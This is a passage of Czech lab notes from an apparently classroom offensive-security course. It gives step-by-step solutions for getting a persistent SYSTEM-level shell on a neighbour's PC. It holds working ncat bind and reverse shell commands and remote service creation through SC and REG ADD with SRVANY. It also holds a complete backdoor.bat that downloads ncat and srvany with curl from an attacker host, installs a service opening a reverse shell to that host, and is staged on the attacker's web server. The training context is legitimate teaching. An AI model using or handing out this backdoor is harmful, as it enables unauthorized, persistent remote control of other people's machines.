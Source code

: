ve W10F spustíme server
	ncat -lp 443 -e cmd.exe
ve Fyzickém PC
	ncat 192.168.56.10 443



Challenge 7
-----------
Úkol:	Z fyzického PC v Gopasu napadněte svého souseda tak, že z PC souseda získáte CMD se systémovým oprávněním,
	kterou budete moci využívat neomezeně dlouho.

Řešení:	Spustíme si u sebe server
		NCAT -lp 443

	Otevřeme si novou CMD, ze které budeme provádět následující příkazy
	Vytvoříme u souseda novou službu spouštějící SRVANY
		SC \\student924-11 CREATE bighack binpath= srvany.exe

	Nakonfigurujeme u souseda SRVANY tak, aby spouštělo NCAT, který bude předávat CMD na server útočníka
		REG ADD \\student924-11\HKLM\SYSTEM\CurrentControlSet\Services\bighack\Parameters /v Application /t REG_SZ /d "NCAT lektor924 443 -e CMD.exe"

	Spustíme u souseda naší službu
		SC \\student924-11 START bighack

	Užíváme si vzdáleného přístupu

Nedostatky uvedeného řešení:
	- Musíme mít na PC oběti admin oprávnění
	- Neuvidíme svou oběť kvůli NATované IP adrese
	- Na PC oběti nebude k dispozici SRVANY a NCAT
	- Při pokusu o nahrání NCATu na PC oběti se pravděpodobně spustí poplach od antiviru

Challenge 8
-----------
Úkol:	Odstraňte všechny nedostatky předchozího řešení a proveďte reálný útok na svou oběť
Řešení:	Vytvoříme malware (backdoor)
		1) Stáhneme nástroje SRVANY a NCAT z webu od útočníka
		2) Vytvoříme lokální službu, která bude spouštět SRVANY
		3) Nakonfigurujeme lokální službu tak, aby SRVANY spouštělo NCAT
		4) Spustíme lokálně naší službu

	backdoor.bat
		CURL http://1.2.3.170/ncat.exe --output %windir%\ncat.exe
		CURL http://1.2.3.170/srvany.exe --output %windir%\srvany.exe
		SC CREATE backdoor binpath= srvany.exe
		REG ADD HKLM\SYSTEM\CurrentControlSet\Services\backdoor\Parameters /v Application /t REG_SZ /d "NCAT 1.2.3.170 443 -e CMD.exe"
		SC START backdoor

	Nahrajeme backdoor na web útočníka
		SCP backdoor.bat kali@192.168.56.170:/var/www/html

